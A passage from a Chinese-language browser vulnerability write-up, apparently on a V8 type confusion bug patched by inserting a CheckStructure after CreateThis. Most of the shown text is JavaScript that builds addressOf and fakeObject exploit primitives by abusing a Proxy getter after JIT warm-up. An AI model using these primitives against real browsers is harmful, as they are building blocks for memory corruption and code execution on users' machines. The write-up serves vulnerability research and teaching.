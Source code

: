 可以看到，其在`CreateThis`后面增加了一个`CheckStructure`，从而避免了类型混淆。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

#### <a class="reference-link" name="fakeObj%E5%92%8CaddressOf%E5%8E%9F%E8%AF%AD%E6%9E%84%E9%80%A0"></a>fakeObj和addressOf原语构造

通过上述分析，我们很容易构造出两个原语

```
function addressOf(obj) `{`
   function foo(arg) `{`
      this.x = arg[0];
   `}`
   var handler = `{`
      get(target,prop) `{`
         if (trigger) `{`
            arr[0] = obj;
         `}`
         return target[prop];
      `}`
   `}`;
   var foo_proxy = new Proxy(foo,handler);
   var arr = [1.1,2.2,3.3];
   var trigger = false;
   for (var i = 0; i &lt; 0x2000; i++) `{`
      new foo_proxy(arr);
   `}`
   trigger = true;
   var ret = new foo_proxy(arr);
   return u64f(ret.x);
`}`

function fakeObject(addr_l,addr_h) `{`
   var addr = p64f(addr_l,addr_h);
   function foo(arr) `{`
      arr[0] = addr;
   `}`
   var handler = `{`
      get(target,prop) `{`
         if (trigger) `{`
            arr[0] = `{``}`;
         `}`
         return target[prop];
      `}`
   `}`;
   var foo_proxy = new Proxy(foo,handler);
   var arr = [1.1,2.2,3.3];
   var trigger = false;
   for (var i = 0;i &lt; 0x2000; i++) `{`
      new foo_proxy(arr);
   `}`
   trigger = true;
   new foo_proxy(arr);
   return arr[0];
`}`
```
